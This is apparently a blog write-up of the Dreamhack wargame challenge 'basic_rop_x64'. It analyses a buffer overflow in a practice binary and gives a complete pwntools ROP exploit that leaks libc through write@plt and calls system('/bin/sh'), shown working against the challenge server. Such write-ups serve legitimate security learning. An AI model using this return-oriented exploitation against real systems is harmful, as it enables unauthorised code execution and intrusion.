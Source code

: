 ```yaml
---
title: "[DREAMHACK] - basic_rop_x64"
published: 2024-12-01
description: ""
image: "../../image.png"
tags:
  - PWN
category: "Wargame"
draft: false
---
```


## Analysis

```bash
alter ^ Sol in ~/Dreamhack/basic_rop_x64
$ file basic_rop_x64_patched
basic_rop_x64_patched: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.35.so, for GNU/Linux 2.6.32, BuildID[sha1]=beee0ff502aca71479db7d481ef811576592438a, not stripped
alter ^ Sol in ~/Dreamhack/basic_rop_x64
$ checksec basic_rop_x64_patched
[*] '/home/alter/Dreamhack/basic_rop_x64/basic_rop_x64_patched'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    RUNPATH:    b'.'
    Stripped:   No
```

The binary with no Canary, and 64bit. Let's take a look at the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}
```

We can see that there is a buffer overflow here:

```c
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400
```

The `buf` variable just can contain 0x40 bytes but we can input `0x400` bytes. So thath let's find the offset to saved RIP

Let's use `pwndbg`:

```nasm
   0x00000000004007ba <+0>:     push   rbp
   0x00000000004007bb <+1>:     mov    rbp,rsp
   0x00000000004007be <+4>:     sub    rsp,0x50
   0x00000000004007c2 <+8>:     mov    DWORD PTR [rbp-0x44],edi
   0x00000000004007c5 <+11>:    mov    QWORD PTR [rbp-0x50],rsi
   0x00000000004007c9 <+15>:    lea    rdx,[rbp-0x40]
   0x00000000004007cd <+19>:    mov    eax,0x0
   0x00000000004007d2 <+24>:    mov    ecx,0x8
   0x00000000004007d7 <+29>:    mov    rdi,rdx
   0x00000000004007da <+32>:    rep stos QWORD PTR es:[rdi],rax
   0x00000000004007dd <+35>:    mov    eax,0x0
   0x00000000004007e2 <+40>:    call   0x40075e <initialize>
   0x00000000004007e7 <+45>:    lea    rax,[rbp-0x40]
   0x00000000004007eb <+49>:    mov    edx,0x400
   0x00000000004007f0 <+54>:    mov    rsi,rax
   0x00000000004007f3 <+57>:    mov    edi,0x0
   0x00000000004007f8 <+62>:    call   0x4005f0 <read@plt>
   0x00000000004007fd <+67>:    lea    rax,[rbp-0x40]
   0x0000000000400801 <+71>:    mov    edx,0x40
   0x0000000000400806 <+76>:    mov    rsi,rax
   0x0000000000400809 <+79>:    mov    edi,0x1
   0x000000000040080e <+84>:    call   0x4005d0 <write@plt>
   0x0000000000400813 <+89>:    mov    eax,0x0
   0x0000000000400818 <+94>:    leave
   0x0000000000400819 <+95>:    ret

```

We can see our `buf` is located in `[rbp-0x40]` we can see here:

```nasm
   0x00000000004007e7 <+45>:    lea    rax,[rbp-0x40]
   0x00000000004007eb <+49>:    mov    edx,0x400
   0x00000000004007f0 <+54>:    mov    rsi,rax
   0x00000000004007f3 <+57>:    mov    edi,0x0
   0x00000000004007f8 <+62>:    call   0x4005f0 <read@plt>
   0x00000000004007fd <+67>:    lea    rax,[rbp-0x40]
   0x0000000000400801 <+71>:    mov    edx,0x40
   0x0000000000400806 <+76>:    mov    rsi,rax
   0x0000000000400809 <+79>:    mov    edi,0x1
   0x000000000040080e <+84>:    call   0x4005d0 <write@plt>

```

So the offset from `buf` to `saved RBP` is `0x40` and we need to add more `16` bytes to overwrite the `saved RIP`

The next thing to do is leak the `libc address` because in this challenge, there is no way to read the flags except by calling the shell.

## Exploit

So there is a list we need to do

- Leak libc address using `write@plt` -> write(1, read@got, 8)

```python
pop_rdi = 0x0000000000400883
pop_rsi_r15 = 0x0000000000400881
read_plt = exe.plt["read"]
read_got = exe.got["read"]
write_plt = exe.plt["write"]
write_got = exe.got["write"]
main = exe.symbols["main"]

payload = b'A' * 0x48
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(8)
payload += p64(write_plt)
payload += p64(main)
s(payload)
```

- Calculate

```python
ru(b'A'*0x40)
leak_libc = u64(rnb(6) + b'\\0\\0')
libc.address = leak_libc - libc.sym['read']
slog("Libc base", libc.address)
```

Why `ru(b'A'*0x40)`?
-> Because our buf can only hold `0x40` bytes and when we write for the first time `write(1, buf, sizeof(buf));` it will read full `0x40` bytes of `buf`. When we `write` again it will print out what we need.

P/s: I use `libc.address` here because initially, the address in `libc` when `libc = ELF('./libc.so.6', checksec=False)` is defaulted to 0, so the address every time we `payload += p64(libc.sym['system'])` will be the `offset` of libc to the system function, not the address of the system function. I don't want that! So I set `libc.address = leak_libc - libc.sym['read']` which will be the libc base. So when I use `payload += p64(libc.sym['system'])` it will automatically add that system offset and go straight to the system function for me. For example:

```bash
>>> from pwn import *
>>> libc = ELF('./libc.so.6', checksec=False)
>>> libc.address
0
>>> libc.sym['read']
1132928
>>> hex(libc.sym['read'])
'0x114980'
>>> libc.address = 1
>>> hex(libc.sym['read'])
'0x114981'
```

- Get shell

```python
payload = b'A' * 0x48
payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
payload += p64(libc.sym['system'])
s(payload)
```

### Full payload

```python
#!/usr/bin/python3
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./basic_rop_x64_patched', checksec=False)
libc = ELF('./libc.so.6', checksec=False)

def GDB(): gdb.attach(p, gdbscript='''

b*0x0000000000400819
c
''') if not args.REMOTE else None

p = remote('host3.dreamhack.games',20302 ) if args.REMOTE else process(argv=[exe.path], aslr=False)
set_p(p)
if args.GDB: GDB(); input()

# ===========================================================
#                          EXPLOIT
# ===========================================================

pop_rdi = 0x0000000000400883
pop_rsi_r15 = 0x0000000000400881
read_plt = exe.plt["read"]
read_got = exe.got["read"]
write_plt = exe.plt["write"]
write_got = exe.got["write"]
main = exe.symbols["main"]

# Leak libc address
payload = b'A' * 0x48
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(8)
payload += p64(write_plt)
payload += p64(main)
s(payload)

ru(b'A'*0x40)
leak_libc = u64(rnb(6) + b'\\0\\0')
libc.address = leak_libc - libc.sym['read']
slog("Libc base", libc.address)
slog("Libc leak",leak_libc)

# Get shell
payload = b'A' * 0x48
payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
payload += p64(libc.sym['system'])
s(payload)

interactive()

```

```bash
alter ^ Sol in ~/Dreamhack/basic_rop_x64
$ ./xpl.py REMOTE
[+] Opening connection to host3.dreamhack.games on port 20302: Done
[+] Libc base: 0x7fb60fc8f000
[+] Libc leak: 0x7f243740f980
[*] Switching to interactive mode
\\x00\\x00\\xc0\\x8d\\xcb\\x0f\\xb6\\x7f\\x00\\x00 \\x14\\xcd\\x0f\\xb6\\x7f\\x00\\x00p\\x06\\xd1\\x0f\\xb6\\x7f\\x00\\x006\\x06@\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00$                                                                      AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA$ ls
basic_rop_x64
flag
```
